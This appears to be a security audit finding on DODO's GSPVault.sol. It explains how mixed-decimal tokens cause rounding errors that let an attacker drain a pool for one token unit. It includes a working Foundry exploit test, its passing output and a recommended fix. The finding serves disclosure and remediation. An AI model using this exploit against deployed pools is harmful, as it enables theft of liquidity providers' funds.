 Huge Magenta Tardigrade

high

# `GSPVault.sol` rounding errors due to mixed-precision assets results in theft of provisioned liquidity.

## Summary

Initializing a pool with a lower-precision base asset results in breakdown of pool invariant logic due to rounding errors.

## Vulnerability Detail

Share calculation logic in the [`GSPVault`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol) operates on the implicit assumption that the number of [`IERC20Metadata#decimals()`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/abcf9dd8b78ca81ac0c3571a6ce9831235ff1b4c/contracts/token/ERC20/extensions/IERC20Metadata.sol#L25) of the [`_BASE_TOKEN_`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSP.sol) are  greater than or equal number of decimals to the [`_QUOTE_TOKEN_`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPStorage.sol#L31).

However, this assumption is not enforced. In the following test, we'll create two [`MockERC20`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/mock/MockERC20.sol)s:

1. The base asset, `b`, with `6` decimals of precision i.e. [$USDC](https://etherscan.io/token/0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48#readProxyContract).
2. The quote asset, `q`, with `18` decimals of precision i.e. [$DAI](https://etherscan.io/token/0x6b175474e89094c44da98b954eedeac495271d0f#readContract).

First, the `MAINTAINER` initializes a pool normally using these assets:

```solidity
address MAINTAINER = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
uint256 LP_FEE_RATE = 1000;
uint256 MT_FEE_RATE = 10000000000000;
uint256 I = 1000000;
uint256 K = 500000000000000;

uint8 decimalsBase = 6;
uint8 decimalsQuote = 18;

MockERC20 b = new MockERC20("Base", "B", decimalsBase);
MockERC20 q = new MockERC20("Quote", "Q", decimalsQuote);

/* maintainer_init */
GSP gsp = new GSP();
gsp.init(MAINTAINER, address(b), address(q), LP_FEE_RATE, MT_FEE_RATE, I, K, false);

b.mint(MAINTAINER, 10 ** decimalsBase);
q.mint(MAINTAINER, 10 ** decimalsQuote);

assert(decimalsBase < decimalsQuote);

/* maintainer_shares */
vm.startPrank(MAINTAINER);

    b.transfer(address(gsp), 10 ** decimalsBase);
    q.transfer(address(gsp), 10 ** decimalsQuote);

    (uint256 maintainerSharesBought,,) = gsp.buyShares(MAINTAINER);

    assertEq(maintainerSharesBought, 1_000_000);
    assertEq(b.balanceOf(address(gsp)), 10 ** decimalsBase);
    assertEq(q.balanceOf(address(gsp)), 10 ** decimalsQuote);

vm.stopPrank();
```

If we analyze the internal state of the pool, we can see the following metrics:

```solidity
console.log(gsp._BASE_TARGET_());
console.log(gsp._QUOTE_TARGET_());
```

```shell
Logs:
  1000000
  0
```

This is to say, the [`_QUOTE_TARGET_`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPStorage.sol#L42) has been incorrectly calculated due to rounding errors from the lesser precision of the base asset.

> [!NOTE]  
> If we had defined the base assets in the opposite order, these two variables would instead have correctly reported:
>
> ```shell
> Logs:
>  1000000000000000000
>  1000000
> ```


Next let's initialize the `ATTACKER`, who requires only a single unit of quote asset:

```solidity
/* init_attacker */
address ATTACKER = address(0x69);
q.mint(ATTACKER, 1);
```

For the price of a single unit of the quote asset, the `ATTACKER` is able to completely drain the pool:

```solidity
/* attacker_steal */
vm.startPrank(ATTACKER);

    q.transfer(address(gsp), 1);

    (uint256 quoteAmountRecieved) = gsp.sellQuote(ATTACKER);
     assertEq(quoteAmountRecieved, 999990);

    (uint256 baseAmountReceived) = gsp.sellBase(ATTACKER);
    assertEq(baseAmountReceived, 999989999999999001);

vm.stopPrank();
```

## Impact

The pool is drained, rendering the shares of liquidity worthless.

## Code Snippet

```solidity
// SPDX-License-Identifier: CC0-1.0
pragma solidity ^0.8.13;

import {Test} from "forge-std/Test.sol";

import {DeployGSP} from "../scripts/DeployGSP.s.sol";
import {GSP} from "../contracts/GasSavingPool/impl/GSP.sol";
import {PMMPricing} from "../contracts/lib/PMMPricing.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {MockERC20} from "mock/MockERC20.sol";

contract GSPVaultSherlockRoundingErrors is Test {

    address constant MAINTAINER = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    uint256 constant LP_FEE_RATE = 1000;
    uint256 constant MT_FEE_RATE = 10000000000000;
    uint256 constant I = 1000000;
    uint256 constant K = 500000000000000;
    bool constant IS_OPEN_TWAP = false;

    function test_sherlock_roundingErrors() public {

        uint8 decimalsBase = 6;
        uint8 decimalsQuote = 18;

        MockERC20 b = new MockERC20("Base", "B", decimalsBase);
        MockERC20 q = new MockERC20("Quote", "Q", decimalsQuote);

        /* maintainer_init */
        GSP gsp = new GSP();
        gsp.init(MAINTAINER, address(b), address(q), LP_FEE_RATE, MT_FEE_RATE, I, K, IS_OPEN_TWAP);

        b.mint(MAINTAINER, 10 ** decimalsBase);
        q.mint(MAINTAINER, 10 ** decimalsQuote);

        assert(decimalsBase < decimalsQuote);

        /* maintainer_shares */
        vm.startPrank(MAINTAINER);

        b.transfer(address(gsp), 10 ** decimalsBase);
        q.transfer(address(gsp), 10 ** decimalsQuote);

        (uint256 maintainerSharesBought,,) = gsp.buyShares(MAINTAINER);

        assertEq(maintainerSharesBought, 1_000_000);
        assertEq(b.balanceOf(address(gsp)), 10 ** decimalsBase);
        assertEq(q.balanceOf(address(gsp)), 10 ** decimalsQuote);

        vm.stopPrank();

        /* attacker_init */
        address ATTACKER = address(0x69);
        q.mint(ATTACKER, 1);

        /* attacker_exploit */
        vm.startPrank(ATTACKER);
        q.transfer(address(gsp), 1);

        (uint256 quoteAmountRecieved) = gsp.sellQuote(ATTACKER);
        assertEq(quoteAmountRecieved, 999990);

        (uint256 baseAmountReceived) = gsp.sellBase(ATTACKER);
        assertEq(baseAmountReceived, 999989999999999001);

        vm.stopPrank();

        /* maintainer_liquidate */
        vm.startPrank(MAINTAINER);

        (uint256 baseAmountOut, uint256 quoteAmountOut) = gsp.sellShares(
            maintainerSharesBought,
            MAINTAINER,
            0,
            0,
            "",
            block.timestamp
        );

        assertEq(baseAmountOut, 0);
        assertEq(quoteAmountOut, 1000);

        vm.stopPrank();

    }

}
```

```shell
Running 1 test for test/GSPVault.Sherlock.RoundingErrors.sol:GSPVaultSherlockRoundingErrors
[PASS] test_sherlock_roundingErrors() (gas: 5365822)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.97s
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tool used

Visual Studio Code, Halmos

## Recommendation

When initializing a pool, ensure the number of [`decimals`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/abcf9dd8b78ca81ac0c3571a6ce9831235ff1b4c/contracts/token/ERC20/extensions/IERC20Metadata.sol#L25) of the base asset is greater than or equal to the number of [`decimals`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/abcf9dd8b78ca81ac0c3571a6ce9831235ff1b4c/contracts/token/ERC20/extensions/IERC20Metadata.sol#L25) in the quote asset.

### [GSP.sol](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSP.sol)

```diff
// symbol of the shares is GLP
symbol = "GLP";
// decimals of the shares is the same as the base token decimals
decimals = IERC20Metadata(baseTokenAddress).decimals();

+ if (decimals < IERC20Metadata(quoteTokenAddress).decimals())
+    revert("BASE_QUOTE_DECIMALS_CANNOT_BE_LESS_THAN_QUOTE");
+
// ============================== Permit ====================================
uint256 chainId;
assembly {
```
